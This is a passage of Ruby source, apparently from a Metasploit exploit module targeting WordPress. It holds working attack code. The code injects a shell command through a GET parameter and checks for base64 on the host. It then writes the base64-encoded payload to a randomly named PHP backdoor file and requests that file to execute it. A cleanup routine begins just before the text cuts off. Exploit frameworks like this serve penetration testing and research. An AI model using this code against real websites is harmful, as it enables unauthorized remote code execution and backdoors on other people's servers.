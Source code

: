           )
          fail_with(Failure::NotFound, 'Failed to retrieve post id') unless res && res.code == 302
          post_id
        end
      end

      def check_for_base64(cookie, post_id)
        uri = normalize_uri(datastore['TARGETURI'])
        # Test if base64 is on target
        test_string = 'YmFzZTY0c3BvdHRlZAo='
        res = send_request_cgi!(
          'method'   => 'GET',
          'uri'      => uri,
          'cookie' => cookie,
          'vars_get' => {
            'p' => post_id,
            '0' => "echo #{test_string} | base64 -d"
          }
        )
        fail_with(Failure::NotFound, 'Unable to retrieve response to base64 command') unless res && res.code == 200 && !res.body.empty?

        fail_with(Failure::NotFound, "Can't find base64 decode on target") unless res.body.include?("base64spotted")
        # Execute payload with base64 decode
        @backdoor = Rex::Text.rand_text_alpha(10)
        encoded = Rex::Text.encode_base64(payload.encoded)
        res = send_request_cgi!(
          'method'   => 'GET',
          'uri'      => uri,
          'cookie' => cookie,
          'vars_get' => {
            'p' => post_id,
            '0' => "echo #{encoded} | base64 -d > #{@backdoor}.php"
          }
        )

        fail_with(Failure::NotFound, 'Failed to send payload to target') unless res && res.code == 200 && !res.body.empty?
        send_request_cgi(
          'method'  =>  'GET',
          'uri'     =>  normalize_uri(datastore['TARGETURI'], "#{@backdoor}.php"),
          'cookie'  =>  cookie
        )
      end

      def wp_cleanup(shell_name, post_id, cookie)
        print_status('Attempting to clean up files...')
        uri = normalize_uri(datastore['TARGETURI'], 'wp-admin', 'admin-ajax.php')
        res = send_request_cgi(
          'method'    => 'POST',
          'uri'       => uri,
          'cookie'    => cookie,
          'vars_post'  => { 'action' => "query-attachments" }
        )
